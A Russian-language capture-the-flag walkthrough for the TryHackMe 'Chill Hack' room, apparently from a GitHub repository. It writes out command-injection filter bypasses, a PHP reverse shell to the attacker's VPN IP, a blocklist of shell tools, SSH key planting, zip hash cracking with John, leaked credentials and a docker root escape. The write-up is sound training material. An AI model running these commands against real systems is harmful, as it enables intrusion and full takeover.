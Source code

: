 [>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)

# Комната [Chill Hack](https://tryhackme.com/r/room/chillhack) 

Всего 1 заданиe:
## Задание 1
Охладите хак машины.

Легкий уровень CTF. Захватывайте флаги и получайте удовольствие!
Вы начинаете с поиска уязвимости инъекции команд на веб-сервере и эксплуатируете уязвимость, чтобы получить оболочку 
на коробке. Затем вам нужно эксплуатировать скрипт bash и повысить свои привилегии до пользователя с именем apaar, а 
затем вы можете сбросить ключ SSH, а затем воспользоваться SSH для переадресации портов на порт, работающий на 
локальном хосте. Веб-сайт, на котором вы сделали переадресацию портов, уязвим для инъекции SQL, и вы можете 
использовать это, чтобы обойти аутентификацию, а затем получить доступ к аутентифицированному контенту. После входа 
в систему вы найдете подсказку, которая заставляет вас подозревать стенографию. Скопируйте изображение на свой ящик, 
выполните анализ стего и получите резервный zip-файл. zip-файл зашифрован с помощью пароля. Вы генерируете хэш с 
помощью zip2john и кряка с john the ripper и получаете пароль для zip-файла. Извлеките zip-файл и вы найдете 
исходный код PHP, который содержит некоторые учетные данные для другого пользователя. Повысьте свои привилегии до 
этого пользователя и обнаружите, что он в группе docker, сделайте немного магии GTFOBins и получите root shell на 
коробке, это действительно забавная коробка без особых слов, давайте перейдем к делу
### Ответьте на вопросы ниже
Пользовательский флаг
```commandline
nmap -sC -sV 10.10.51.62
ftp 10.10.51.62
# anonymous
ls -la
get note.txt -
cat note.txt
# Anurodh and Apaar
```
Возвращаясь к моему сканированию Gobuster, я обнаружил несколько каталогов, и один из них был интересным `http://10.10.51.62/secret/`.
Я решил заглянуть в каталог и обнаружил, что там есть файл index.php, который может выполнять команды.
```commandline
gobuster dir -u http://10.10.51.62 -x txt,php,tar,zip -w /usr/share/wordlists/dirb/common.txt
# http://10.10.51.62/secret/
```
Я решил начать с простого и просто выполнить `ls`, чтобы получить список каталогов. Но когда я выполнил команду, я 
получил сообщение об ошибке. Я подумал, что это может быть страница троллей, не имеющая реальной функции, но чтобы 
подтвердить свои подозрения, я попробовал другую команду `whoami`, затем `ifconfig`. И команды выполнились просто 
отлично. Потом я предположил, что в команде была фильтрация по некоторым словам. Самый простой способ, которым я всегда пытаюсь обойти 
любую фильтрацию при инъекции команды, — это использовать обратные косые черты. Если я не экранирую специальные 
символы, то слово будет интерпретироваться bash одинаково. Итак, я попробовал снова выполнить ls, но в этом случае 
я добавил обратную связь между l и s. Далее я решил взглянуть на PHP-файл, в котором выполняются команды, и 
посмотреть, какие еще слова были занесены в черный список скриптом с помощью приведенной ниже команды. 
```commandline
ls
ifconfig
l\s -la
c\at index.php
```
И глядя на источник, мы видим еще несколько слов, которые фильтруются скриптом, включая
```commandline
nc, python, bash, php, perl, rm, cat, head, tail, python3, more, less, sh, ls
```
Эти слова в основном используются для получения обратных оболочек на любой системе. Но теперь у нас есть способ 
обойти эти ограничения. Теперь давайте получим оболочку. 
Я создал обратную оболочку bash
```commandline
whoami;php -r '$sock=fsockopen("your-vpn-ip",4444);exec("/bin/sh -i <&3 >&3 2>&3");'
```
на вашей машине запускаем прослушивание порта 4444, а затем bash
```commandline
nc -lvnp 4444
python3 -c 'import pty;pty.spawn("/bin/bash")'
sudo -l
cat /home/apaar/.helpline.sh
sudo -u apaar ./.helpline.sh
cat local.txt
```
```commandline
{USER-FLAG: e8vpd3323cfvlp0qpxxx9qtr5iq37oww}
```
Корневой флаг
```commandline
id
ssh-keygen
echo "your-ssh-public-key-contents" >> /home/apaar/.ssh/authorized_keys
ssh -L 9001:127.0.0.1:9001 apaar@10.10.51.62 -i id_rsa
# http://127.0.0.1:9001

cd /var/www/files/
cat account.php
cat index.php
# mysl:dbname=webportal;host=localhost, root, !@m_her00+@db

mysql -u root -p

SHOW DATABASES;
USE webportal
SHOW TABLES;
SELECT * FROM users;
```
Глядя на файл hackers.php мы получаем подсказку и картинку, первая мысль, которая пришла в голову, была стенография. 
Я загрузил изображение на свой локальный ящик с помощью wget. Далее я попробовал простые методы стенографии.

```commandline
cat hacker.php
wget http://127.0.0.1:9001/images/hacker-with-laptop_23-2147985341.jpg
file hacker-with-laptop_23-2147985341.jpg 
steghide extract -sf hacker-with-laptop_23-2147985341.jpg
zip2john backup.zip > backup.hash
john backup.hash --wordlist=/usr/share/wordlists/rockyou.txt
# pass1word        (backup.zip/source_code.php)
unzip backup.zip
# pass1word
cat source_code.php
echo -n IWQwbnRLbjB3bVlwQHNzdzByZA== | base64 -d ; echo

# Username: anurodh
# Password: !d0ntKn0wmYp@ssw0rd

```

```commandline
su - anorodh



docker run -v /:/mnt --rm -it alpine chroot /mnt sh
id
cd /root
ls -la
cat proof.txt
```
```commandline
{ROOT-FLAG: w18gfpn9xehsgd3tovhk0hby4gdp89bg}
```


[>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)